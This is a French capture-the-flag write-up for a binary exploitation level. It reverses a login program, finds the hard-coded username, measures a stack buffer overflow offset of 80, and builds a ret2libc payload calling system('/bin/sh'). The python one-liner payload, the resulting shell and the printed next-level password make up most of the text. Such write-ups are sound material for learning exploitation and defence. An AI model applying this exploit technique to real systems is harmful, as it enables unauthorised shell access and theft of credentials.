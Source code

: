 # Level 1

On commence par décompiler le code. On observe différentes choses intéressantes. On remarque que le programme attend 2 entrées. 

```C
printf("Enter Username: ");
puts("Enter Password: ");
```

Notre programme attend un `username` et un  `password`. 
La vérification du `username` se fait de par la fonction `verify_user_name` 

```C
printf("Enter Username: ");
fgets(a_user_name, 0x100, _reloc.stdin);
iStack20 = verify_user_name();
```

Le code décompilé de cette fonction est assez incompréhensible. On observe une chaine de caractères en dur dans le code.

```C
pcVar3 = (code *)"dat_wil";
```

On suppose que l'entrée attendu pour le `username` est `dat_wil`. On peut vérifier cela en rentrant cet `input` dans notre programme.

```
> ./level01
[...]
Enter Username: test_username
verifying username....

nope, incorrect username...
> ./level01
[...]
Enter Username: dat_wil
verifying username....

Enter Password:
```
Notre hypothèse est vérifié, notre programme attend `dat_wil` comme `username`.

Pour le `password`, cela semble plus complexe. En effet, le programme semble r'envoyer dans tout les cas `nope, incorrect password ...\n`.

```C
if (iStack20 == 0) {
	puts("Enter Password: ");
	fgets(auStack84, 100, _reloc.stdin);
	iStack20 = verify_user_pass((char *)auStack84);
	if ((iStack20 == 0) || (iStack20 != 0)) {
		puts("nope, incorrect password...\n");
		uVar1 = 1;
	}
	else {
		uVar1 = 0;
	}
}
```

On voit qu'au moment de la vérification du `password`, une fonction `verify_user_pass` est appelée. 

Le code décompilé de cette fonction n'est pas lisible. On voit seulement une chaine de caractères en dur dans le code 

```C
puVar2 = (uint8_t *)"admin";
```

En essayant de mettre  `admin` comme `password`, on obtiens toujours le même résultat, à savoir `nope, incorrect password...`

On observe que lorsqu'on saisit le `password`, la fonction `fgets` est appelé.

```C
undefined4 auStack84 [16];
fgets(auStack84, 100, _reloc.stdin);
```
Nous allons donc mettre 100 caractères dans notre `input` `password`, et voir ce qu'il se passe.

```
> gdb ./level01
> (gdb) r
[...]
Enter Username: dat_wil
[...]
Enter Password: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
[...]
Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
On a [généré](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) une chaine de 100 caractères. Notre programme a segault. Nous aimerons donc savoir le décalage entre le début de notre `buffer`et `eip`.

 Notre `eip` est 0x37634136. Ici le [décalage](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) est de `80`.
Notre programme n'exécute pas de `shell`. Nous pouvons ici utiliser l'exploit `RetToLibC`. 

Nous allons construire notre exploit de cette façon : 

```
[username_valide] + [A * Offset] + [adresse de system] + [DAMN] + [adresse de bin/sh]
```

Trouvons maintenant l'adresse  `system` et de `bin/sh`. 

```
> (gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
[...]
```
Nous pouvons maintenant construire notre payload. 

```
[dat_wil\n] + [A*80] + [\xd0\xae\xe6\xf7] + [DAMN] + [\xec\x97\xf8\xf7]

python -c 'print "dat_wil\n"+"A"*80+"\xd0\xae\xe6\xf7"+"DAMN"+"\xec\x97\xf8\xf7"' > /tmp/hack01
cat /tmp/hack01 - | ./level01
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```